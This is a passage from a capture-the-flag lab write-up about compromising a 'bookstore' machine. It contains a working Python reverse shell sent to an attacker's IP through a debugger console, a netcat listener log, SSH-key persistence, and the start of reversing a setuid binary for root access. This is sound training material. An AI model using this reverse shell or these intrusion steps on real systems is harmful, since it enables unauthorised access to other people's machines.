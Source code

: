 And we are in! Now let's try to do a [python reverse shell](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet). First set up a listener to our machine.

```python
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("<your-IP>",<port>))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])
```

```bash
┌──(all3n㉿kali)-[~/thm/bookstore]
└─$ nc -lvnp 9001                    
listening on [any] 9001 ...
connect to [10.4.14.51] from (UNKNOWN) [10.10.87.239] 36176
10.4.14.51 - - [22/Jan/2022 13:57:33] "GET /console?__debugger__=yes&cmd=os.dup2(s.fileno()%2C2)&frm=0&s=Lh2xU4dH39FzXlFlvUh2 HTTP/1.1" 200 -
/bin/sh: 0: can't access tty; job control turned off
$ 
```
## ROOT

And we have a shell as sid! Now the first thing I did is to create an SSH key and save to sid's **_/.ssh/authorized_keys_** file so we I can ssh.

```bash
sid@bookstore:~$ ls
api.py  api-up.sh  books.db  try-harder  user.txt
```

From here we can first notice the ***_try-harder_** file. I tried executing it but it wants a **_magic number_**

```
sid@bookstore:~$ ./try-harder 
What's The Magic Number?!
69
Incorrect Try Harder
```

I ran `strings` against it and it has this interesting lines.

```
What's The Magic Number?!
/bin/bash -p
Incorrect Try Harder
```

I downloaded the **_try-harder_** file and analyzed it using **_Ghidra_**

```C
void main(void)

{
  long in_FS_OFFSET;
  uint local_1c;
  uint local_18;
  uint local_14;
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  setuid(0);
  local_18 = 0x5db3;
  puts("What\'s The Magic Number?!");
  __isoc99_scanf(&DAT_001008ee,&local_1c);
  local_14 = local_1c ^ 0x1116 ^ local_18;
```